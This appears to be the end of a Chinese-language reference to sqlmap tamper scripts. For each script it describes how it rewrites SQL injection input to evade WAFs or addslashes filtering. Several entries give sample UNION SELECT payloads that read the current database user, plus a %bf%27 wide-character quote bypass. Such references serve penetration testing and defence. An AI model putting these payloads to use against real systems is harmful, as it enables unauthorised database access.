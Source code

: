 > 脚本名：unionalltounion.py  

作用：用“UNION SELECT”替换“UNION ALL SELECT”    
Example：

	('-1 UNION ALL SELECT')
	'-1 UNION SELECT'


> 脚本名：unmagicquotes.py  

作用：用一个多字节组合%bf%27和末尾通用注释一起替换空格符,宽字符绕过 GPC  addslashes    
Example：

	1′ AND 1=1
	1%bf%27 AND 1=1–%20


> 脚本名：varnish.py  

作用：添加一个HTTP头“X-originating-IP”来绕过WAF    
Example：



> 脚本名：versionedkeywords.py  

作用：用MySQL注释包围每个非函数关键字    
Example：
	
	1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#
	1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS**!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#


> 脚本名：versionedmorekeywords.py  

作用：用MySQL注释包围每个关键字    
Example：

	1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#
	1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#


> 脚本名：xforwardedfor.py  

作用：添加一个伪造的HTTP头“X-Forwarded-For”来绕过WAF    
Example：
	
</br>

-----------------------------------
参考内容：  
推酷：<http://www.tuicool.com/articles/RbUvqea>  
红黑联盟： <http://www.2cto.com/Article/201502/374877.html>  
黑吧安全网： <http://www.myhack58.com/Article/html/3/7/2015/62119.htm>  
黑吧安全网： <http://www.myhack58.com/Article/html/3/7/2016/78342.htm>